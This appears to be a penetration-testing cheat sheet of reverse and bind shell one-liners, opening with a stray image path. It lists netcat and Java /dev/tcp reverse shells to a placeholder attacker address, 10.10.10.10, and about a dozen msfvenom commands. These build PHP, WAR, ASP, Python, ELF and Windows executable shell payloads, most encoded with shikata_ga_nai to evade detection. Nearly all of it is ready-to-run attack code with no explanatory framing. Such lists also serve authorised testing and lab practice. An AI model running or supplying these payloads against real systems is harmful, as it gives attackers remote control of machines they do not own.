 # Netcat
nc -e /bin/sh 10.10.10.10 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

# Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

# PHP reverse shell  
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php

# Java WAR reverse shell  
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war

# Linux bind shell  
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai

# Linux FreeBSD reverse shell  
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf

# Linux C reverse shell  
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c

# Windows non staged reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe

# Windows Staged (Meterpreter) reverse shell  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe

# Windows Python reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py

# Windows ASP reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp
